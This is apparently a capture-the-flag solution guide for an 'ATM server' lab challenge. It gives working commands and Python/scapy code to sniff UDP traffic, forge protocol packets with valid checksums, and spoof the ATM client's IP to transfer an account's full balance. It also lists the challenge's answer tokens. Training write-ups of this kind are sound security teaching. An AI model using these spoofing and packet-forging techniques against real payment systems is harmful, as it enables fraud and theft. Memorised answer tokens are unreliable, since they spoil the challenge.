

# Money Heist

*Solution Guide*

## Question 1

*Intercept the communication between the ATM server and client to determine the cash balance of account `1827307999`*

1. Log in to `securityonion` VM and create a packet capture using the `tap0` interface. Waiting ~1 minute should be sufficient to get the necessary traffic.

```bash
sudo tcpdump -i tap0 -w out.cap 
```


2. Filter for just the traffic to the `atm-server` on udp port 3200 and extract the udp payload

```bash
tshark -r out.cap -Y "udp.port == 3200" -T fields -e data > parsed.txt
```



3. Filter the data again for just the lines that include the account number from the question (`1827307999`)

```bash
cat parsed.txt | grep $(printf "%x" 1827307999) > filtered.txt
```

Note - The data in `parsed.txt` is raw hex, so the account number needs to be converted from decimal to hex to perform the filter. 


4. Follow the packet specification (`https://challenge.us/files/spec.txt`) to parse out the account balance response

Headers (23 bytes)
|Field|Length|
|-|-|
|Magic Bytes|4|
|Sequence Number|4|
|Timestamp|8|
|Type|1|
|Length|4|
|Checksum|2|

A type value of `11` or `0x0B` indicates a check balance response.

Check Balance Response Payload
|Field|Length|
|-|-|
|Status|1|
|Account Number|4|
|Balance|4|

The account balance 4 bytes long at an offset of 28 bytes.

You can write a script or manually parse out the fields to retrieve the data

```bash
while IFS= read -r line; do
    echo -n "$line" | dd bs=2 skip=$((4+4+8)) count=1 2>/dev/null
    echo -n "|"
    echo -n "$line" | dd bs=2 skip=28 count=4 2>/dev/null | printf "%d" "0x$(cat)" 2>/dev/null
    echo
done < filtered.txt
```

Note - the block size for the `dd` command is set to 2 because each byte is represented as 2 hex characters. 


In this example, the result is 498900, which represents an account balance of $4989.00 because the amount is recorded in cents. 

5. Enter the $4989.00 account balance as the answer to the token 1 grader at `challenge.us`


This should return token1, which is `498a26fa6cfba6bd` in this example, the answer to question 1. 

## Question 2

*Craft your own packet to query the ATM server and determine the cash balance of account `2097954097`*

1. Follow the packet specification provided to create the binary payload for the balance check request

```py
ACCOUNT_NUMBER = 2097954097
MAGIC_BYTES = 0x3fa95c1d
CRC_INIT = 0xFFFF
CRC_POLYNOMIAL = 0xA001

CHECK_BALANCE_REQUEST = 1

def calculate_checksum(data: bytes) -> int:
  crc = CRC_INIT
  for byte in data:
    crc ^= byte
    for _ in range(8):
      if crc & 1:
        crc = (crc >> 1) ^ CRC_POLYNOMIAL
      else:
        crc >>= 1
  return crc

def create_packet() -> bytes:
  # Check Balance Payload
  payload = ACCOUNT_NUMBER.to_bytes(4, 'big')

  # Magic bytes
  byte_array = MAGIC_BYTES.to_bytes(4, 'big')

  # Sequence Number
  byte_array += (0).to_bytes(4, 'big')

  # Timestamp
  byte_array += (0).to_bytes(8, 'big')
  
  # Type
  byte_array += CHECK_BALANCE_REQUEST.to_bytes(1, 'big')

  # Length
  byte_array += (len(payload)).to_bytes(4, 'big')

  # Checksum
  byte_array += calculate_checksum(payload).to_bytes(2, 'big')

  # Payload
  byte_array += payload
  return byte_array
```

2. Follow the packet specification to create a function to read the account balance response

```py
CHECK_BALANCE_RESPONSE = 11

def read_packet(data: bytes):
  magic = int.from_bytes(data[0:4], 'big')
  sequence = int.from_bytes(data[4:8], 'big')
  timestamp = int.from_bytes(data[8:16], 'big')
  type = data[16]
  length = int.from_bytes(data[17:21], 'big')
  checksum = int.from_bytes(data[21:23], 'big')
  payload = data[23:]

  if type == CHECK_BALANCE_RESPONSE:
    account_balance = (int.from_bytes(payload[5:], 'big')) / 100
    print(f"Check balance response: ${account_balance}") 
```

3. Send the packet and listen to the response

```py
import os
import socket

PORT = 3200
SERVER_IP = "10.5.5.101"

with socket.socket(socket.AF_INET, socket.SOCK_DGRAM) as sock:
  packet = create_packet()
  print(packet.hex())
  sock.sendto(packet, (SERVER_IP, PORT))

  data = sock.recv(1024)
  read_packet(data)
```

When executing the code, you should see the raw hex response from the server as well as the account balance, 


4. Enter the $8060.00 account balance as the answer to the token 2 grader at `challenge.us`


This should return token2, which is `31b38efaf179fe25` in this example, the answer to question 2. 


## Question 3

*Craft a spoofed packet to the ATM server appearing to come from the ATM client (`10.2.2.50`) to transfer all of the money from account `1869589436` to account `1320571932`*

1. Use the same method from Question 2 to obtain the account balance for `1869589436`, which is 5068.

2. Follow the packet specification provided to create the binary payload for the balance check request

```py
MAGIC_BYTES = 0x3fa95c1d
CRC_INIT = 0xFFFF
CRC_POLYNOMIAL = 0xA001

SRC_ACCOUNT = 1869589436
DST_ACCOUNT = 1320571932
AMOUNT = 506800

TRANSFER_MONEY_REQUEST = 4

def calculate_checksum(data: bytes) -> int:
  crc = CRC_INIT
  for byte in data:
    crc ^= byte
    for _ in range(8):
      if crc & 1:
        crc = (crc >> 1) ^ CRC_POLYNOMIAL
      else:
        crc >>= 1
  return crc

def create_packet() -> bytes:
  # Transfer Money Payload
  payload = SRC_ACCOUNT.to_bytes(4, 'big')
  payload += DST_ACCOUNT.to_bytes(4, 'big')
  payload += AMOUNT.to_bytes(4, 'big')

  # Magic bytes
  byte_array = MAGIC_BYTES.to_bytes(4, 'big')

  # Sequence Number
  byte_array += (0).to_bytes(4, 'big')

  # Timestamp
  byte_array += (0).to_bytes(8, 'big')
  
  # Type
  byte_array += TRANSFER_MONEY_REQUEST.to_bytes(1, 'big')

  # Length
  byte_array += (len(payload)).to_bytes(4, 'big')

  # Checksum
  byte_array += calculate_checksum(payload).to_bytes(2, 'big')

  # Payload
  byte_array += payload
  return byte_array
```

3. Use `scapy` to spoof your IP address to be `10.2.2.50`

```py
from scapy.all import *

PORT = 3200
CLIENT_IP = "10.2.2.50"
SERVER_IP = "10.5.5.101"

# Create a UDP packet
udp_packet = IP(src=CLIENT_IP, dst=SERVER_IP) / UDP(dport=PORT, sport=54321) / Raw(load=create_packet())

# Display the packet
udp_packet.show()

# Send the packet
send(udp_packet)
```

3. Confirm the transfer was successful by repeating step 1. You should see that the account balance is now zero. 


4. Initiate the token 3 grader at `challenge.us`


This should return token3, which is `18bef578a0d9a333` in this example, the answer to question 3. 

See [3-solve.py](./3-solve.py). **Note: You need to run this script as root**